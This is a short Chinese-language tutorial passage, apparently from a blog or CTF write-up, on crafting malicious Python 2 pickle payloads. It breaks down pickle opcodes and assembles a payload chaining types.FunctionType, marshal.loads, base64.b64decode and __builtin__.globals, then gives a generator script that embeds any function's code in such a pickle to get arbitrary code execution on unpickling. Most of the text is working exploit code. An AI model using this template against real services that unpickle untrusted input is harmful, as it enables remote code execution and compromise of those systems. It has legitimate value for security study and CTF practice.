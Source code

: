 开头的c后面跟的是引入的模块，换行之后是函数，再换行之后是执行的语句；根据这个结构把marshal和b64加进去

```python
cmarshal
loads
(cbase64
b64decode
(S'YwAAAAAB........'
tRtR
```

而globals()可以在`__builtin__`模块中引入

```python
{}{}
c__builtin__
globals
(tR
```

把上面的缝合起来得到最终的payload，注意添加`(rR.`

```python
ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'YwAAAAAB........'
tRtRc__builtin__
globals
(tRS''
tR(tR.
```

构造这个人看着费劲的payload的模板~（来源参见：[Arbitrary code execution with Python pickles](https://checkoway.net/musings/pickle/)）

```python
# py2
import marshal
import base64

def foo():
    pass # Your code here

print """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(foo.func_code))
```
